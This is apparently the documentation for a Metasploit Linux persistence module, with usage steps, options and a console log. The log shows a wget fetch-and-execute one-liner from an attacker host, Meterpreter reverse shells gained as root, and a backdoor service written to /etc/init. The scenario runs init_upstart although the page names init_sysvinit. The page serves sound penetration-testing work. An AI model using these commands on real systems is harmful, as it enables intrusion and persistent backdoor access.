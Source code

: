 ## Vulnerable Application

This module will create a service on the box, and mark it for auto-restart.
We need enough access to write service files and potentially restart services

Targets:

* CentOS 6
* Fedora >= 9, < 15
* Ubuntu >= 9.10, <= 14.10

## Verification Steps

1. Exploit a box
2. `use exploit/linux/persistence/init_sysvinit`
3. `set SESSION <session>`
4. `set PAYLOAD <payload>`
5. `set LHOST <lhost>`
6. `exploit`

## Options

### SERVICE

The name of the service to create.  If not chosen, a random one is created.

### PAYLOAD_NAME

The name of the file to write with our shell if a non-cmd payload is used.  If not chosen, a random one is created.

### RESTART_LIMIT

The number of times to restart the service. If using a threaded payload (fetch), this is how many shells you may get. Defaults to 3

## Scenarios

### Ubuntu 14.04

Initial access vector via web delivery

```
resource (/root/.msf4/msfconsole.rc)> setg verbose true
verbose => true
resource (/root/.msf4/msfconsole.rc)> setg lhost 111.111.1.111
lhost => 111.111.1.111
resource (/root/.msf4/msfconsole.rc)> use exploit/multi/script/web_delivery
[*] Using configured payload python/meterpreter/reverse_tcp
resource (/root/.msf4/msfconsole.rc)> set srvport 8181
srvport => 8181
resource (/root/.msf4/msfconsole.rc)> set target 7
target => 7
resource (/root/.msf4/msfconsole.rc)> set payload payload/linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
resource (/root/.msf4/msfconsole.rc)> set lport 4545
lport => 4545
resource (/root/.msf4/msfconsole.rc)> set URIPATH l
URIPATH => l
resource (/root/.msf4/msfconsole.rc)> run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
[*] Starting persistent handler(s)...
[*] Started reverse TCP handler on 111.111.1.111:4545 
[*] Using URL: http://111.111.1.111:8181/l
[*] Server started.
[*] Run the following command on the target machine:
wget -qO HvGO7GyB --no-check-certificate http://111.111.1.111:8181/l; chmod +x HvGO7GyB; ./HvGO7GyB& disown
[msf](Jobs:1 Agents:0) exploit(multi/script/web_delivery) > 
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 222.222.2.222
[*] Meterpreter session 1 opened (111.111.1.111:4545 -> 222.222.2.222:52092) at 2025-02-16 10:52:49 -0500

[msf](Jobs:1 Agents:1) exploit(multi/script/web_delivery) > use exploit/linux/persistence/init_upstart 
[*] No payload configured, defaulting to cmd/linux/http/x64/meterpreter/reverse_tcp
[msf](Jobs:2 Agents:2) exploit(linux/persistence/init_upstart) > sessions -i 1
[*] Starting interaction with 1...

(Meterpreter 1)(/home/ubuntu) > sysinfo
Computer     : Ubuntu14.04
OS           : Ubuntu 14.04 (Linux 3.13.0-24-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
(Meterpreter 1)(/home/ubuntu) > getuid
Server username: root
(Meterpreter 1)(/home/ubuntu) > background
[*] Backgrounding session 1...
```

Persistence

```
[msf](Jobs:1 Agents:1) exploit(linux/persistence/init_upstart) > set session 1
session => 1
[msf](Jobs:1 Agents:1) exploit(linux/persistence/init_upstart) > set payload payload/linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
[msf](Jobs:1 Agents:1) exploit(linux/persistence/init_upstart) > exploit
[*] Exploit running as background job 1.
[*] Exploit completed, but no session was created.
[msf](Jobs:2 Agents:1) exploit(linux/persistence/init_upstart) > 
[*] Started reverse TCP handler on 111.111.1.111:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[!] Payloads in /tmp will only last until reboot, you want to choose elsewhere.
[+] The target appears to be vulnerable. /tmp/ is writable and system is upstart based
[*] Writing backdoor to /tmp//GXhkVaF
[*] Writing '/tmp//GXhkVaF' (250 bytes) ...
[*] Writing service: /etc/init/kKxVjJjUUOVq.conf
[*] Starting service
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 222.222.2.222
[*] Meterpreter-compatible Cleaup RC file: /root/.msf4/logs/persistence/Ubuntu14.04_20250216.5324/Ubuntu14.04_20250216.5324.rc
[*] Meterpreter session 2 opened (111.111.1.111:4444 -> 222.222.2.222:53847) at 2025-02-16 10:53:24 -0500
```
